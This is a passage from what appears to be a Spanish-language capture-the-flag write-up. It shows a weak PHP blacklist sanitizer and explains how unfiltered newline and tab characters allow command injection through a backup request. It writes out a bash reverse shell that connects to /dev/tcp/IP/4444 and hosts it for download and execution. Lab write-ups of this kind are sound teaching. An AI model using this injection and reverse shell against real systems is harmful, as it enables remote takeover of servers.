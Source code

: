 ```php
    }
    echo "</ul>";
}
```

También hay un intento de sanitizar las entradas:

```php
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];

    foreach ($blacklist_chars as $char) {
        if (strpos($entry, $char) !== false) {
            return false; // Malicious input detected
        }
    }

    return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}
```

Pero no limpia las entradas como nueva líneas `%0a` y `\n` o el tab horizontal `%09` y `\t` , y aquí es donde entra la vulnerabilidad en el sistema de `backups` de la pagina, la cual crea una Shell de comandos, si interceptamos la petición para crear el backup veremos lo siguiente: 

<a href="https://imgur.com/8EUrFsB"><img src="https://imgur.com/8EUrFsB.png" title="source: imgur.com" /></a>

Por lo que teniendo conocimiento de las entradas que no limpia podemos intentar inyectar de alguna forma comandos, como lo es la siguiente:

<a href="https://imgur.com/kshQyrk"><img src="https://imgur.com/kshQyrk.png" title="source: imgur.com" /></a>

Con esto en conocimiento podemos tratar de montar una revshell, de la siguiente manera vamos a crear un archivo llamado `revshell.sh` con el siguiente contenido:

```bash
sh -i >& /dev/tcp/IP/4444 0>&1

# En consola vamos a ejecutar el siguiente comando:
python3 -m http.server 
```

Y ya lo siguiente seria con la petición que habíamos interceptado, de modo que vamos a descargar la rever Shell que tenemos en nuestra maquina y la vamos a ejecutar con bash: 

<a href="https://imgur.com/3scS3n3"><img src="https://imgur.com/3scS3n3.png" title="source: imgur.com" /></a>

<a href="https://imgur.com/OzvZlIL"><img src="https://imgur.com/OzvZlIL.png" title="source: imgur.com" /></a>

<a href="https://imgur.com/ZQzRe20"><img src="https://imgur.com/ZQzRe20.png" title="source: imgur.com" /></a>

# User
